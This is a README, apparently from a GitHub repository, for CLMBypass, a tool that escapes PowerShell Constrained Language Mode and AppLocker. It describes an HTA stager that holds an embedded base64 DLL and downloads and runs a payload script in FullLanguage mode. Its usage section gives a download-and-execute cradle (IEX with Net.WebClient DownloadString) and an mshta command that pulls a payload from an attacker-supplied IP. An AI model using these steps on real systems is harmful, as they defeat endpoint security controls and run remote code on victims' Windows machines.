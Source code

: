 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article.

### contents
- payload.ps1
  - payload to be run in FullLanguage mode
- stager.hta
  - CLMBypass.dll is stored as base64
  - When a client accesses it, the DLL will be loaded dynamically
  - The powershell command to download the final payload is executed in the CLMBypass Runspace with FullLanguage mode
  - `payload.ps1` is downloaded and executed in FullLanguage mode
- Program.cs
  - C# source code
- CLMB.exe
  - Compiled as PE32 .NET Framework 4.5
- CLMBypass.exe
  - Compiled as PE32 .NET Framework 4.0

## usage
#### CLMBypass by itself (CLM, but no AppLocker)
```
C:\Users\CLMUser\Downloads>.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"
```

#### CLMBypass with stager (AppLocker and CLM)
```
C:\Users\CLMUser\Downloads>mshta.exe http://<ip>/payload.ps1
```
**NOTE:** This will cause a window with the rendered `stager.hta` to pop up, which can be closed without hindering the process.